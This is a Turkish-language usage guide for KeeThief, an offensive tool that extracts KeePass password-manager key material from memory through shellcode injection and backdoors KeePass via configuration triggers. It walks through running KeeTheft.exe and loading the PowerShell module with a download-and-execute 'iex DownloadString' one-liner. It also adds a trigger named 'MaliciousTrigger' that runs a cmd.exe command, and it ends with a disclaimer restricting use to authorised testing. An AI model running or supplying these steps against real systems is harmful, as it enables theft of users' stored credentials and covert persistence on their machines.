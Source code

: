 # KeeTheft.exe Kullanım Rehberi

## KeeThief Nedir?
**KeeThief**, KeePass 2.X şifre yöneticisiyle ilişkili anahtar materyalini bellekten çıkarmak, KeePass tetikleyici sistemini arka kapıdan erişmek ve yapılandırmalarını düzenlemek için kullanılan bir araçtır. Bu araç, hem güvenlik araştırmaları hem de sistem analizi için geliştirilmiştir.

### Öne Çıkan Özellikler
- **Anahtar Çıkartma:** KeePass anahtar materyalini bellekten çıkartır.
- **Bellek Deşifre Etme:** DPAPI şifrelenmiş verilerini çözmek için modifiye edilmiş shellcode kullanır.
- **Tetikleyici Manipülasyonu:** KeePass tetikleyicilerini ekleme, kaldırma veya listeleme.

---

## Kullanım Alanları
- KeePass veritabanlarının güvenlik analizi
- KeePass tetikleyici yapılandırmalarının incelenmesi ve düzenlenmesi
- Şifre yöneticisiyle ilgili güvenlik zafiyetlerini tespit etme

---

## Gerekli Bağımlılıklar
- .NET Framework (araç, birleştirilmiş CLR MD kütüphanesi ile birlikte gelir, harici bir bağımlılık gerektirmez).

---

## İndirme ve Kurulum
GitHub'dan aracı indirmek için:

```bash
git clone https://github.com/GhostPack/KeeThief.git
```

Derlemek için Visual Studio kullanabilirsiniz. Derlemeden sonra **KeeTheft.exe** adlı çalıştırılabilir dosya oluşturulacaktır.

---

## KeeTheft.exe Kullanımı

### Anahtar Çıkartma
KeePass anahtar materyalini çıkartmak için aşağıdaki komut kullanılabilir:

```bash
KeeTheft.exe
```

Komut çalıştırıldığında, KeePassLib.PwDatabase nesnesi aranır ve KeePass anahtar materyali (KcpPassword, KcpKeyFile, KcpUserAccount) bellekten çıkarılır. Şifrelenmiş anahtar materyali, belleğe shellcode enjekte edilerek deşifre edilir.

---

## PowerShell ile Kullanım
KeeThief'in PowerShell modülü ile KeePass materyali çıkarılabilir ve KeePass yapılandırma dosyaları düzenlenebilir.

### Modülü Belleğe Yükleme
```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/GhostPack/KeeThief/master/PowerShell/KeeThief.ps1')
```

### Anahtar Çıkartma
```powershell
Get-KeePassDatabaseKey
```
Bu komut, KeePass.exe sürecine bağlanarak anahtar materyalini çıkarır.

### KeePass Tetikleyici Yönetimi
#### Tetikleyicileri Listeleme
```powershell
Get-KeePassConfigTrigger -Path 'C:\Users\Kullanici\AppData\Roaming\KeePass\KeePass.config.xml'
```

#### Yeni Bir Tetikleyici Eklemek
```powershell
Add-KeePassConfigTrigger -Path 'C:\Users\Kullanici\AppData\Roaming\KeePass\KeePass.config.xml' -Name "MaliciousTrigger" -Command "cmd.exe /c whoami"
```

#### Tetikleyiciyi Kaldırmak
```powershell
Remove-KeePassConfigTrigger -Path 'C:\Users\Kullanici\AppData\Roaming\KeePass\KeePass.config.xml' -Name "MaliciousTrigger"
```

---

## Yasal Uyarı
**KeeThief**, yalnızca yetkili ortamlarda araştırma ve güvenlik testleri için kullanılmalıdır. Bu aracın izinsiz kullanımı yasa dışıdır ve ciddi yasal sonuçlara yol açabilir. Aracın geliştiricileri, kötüye kullanımdan veya yetkisiz erişimden doğabilecek zararlardan sorumlu değildir.

---

## Teşekkürler
Bu projeye katkıda bulunanlar:
- **Lee Christensen (@tifkin_)**
- **Will Schroeder (@harmj0y)**

---

## Lisans
Bu proje, BSD 3-Clause Lisansı altında sunulmaktadır.

---

KeeThief hakkında daha fazla bilgi ve kullanım kılavuzları için [GitHub Sayfası](https://github.com/GhostPack/KeeThief) adresini ziyaret edebilirsiniz.
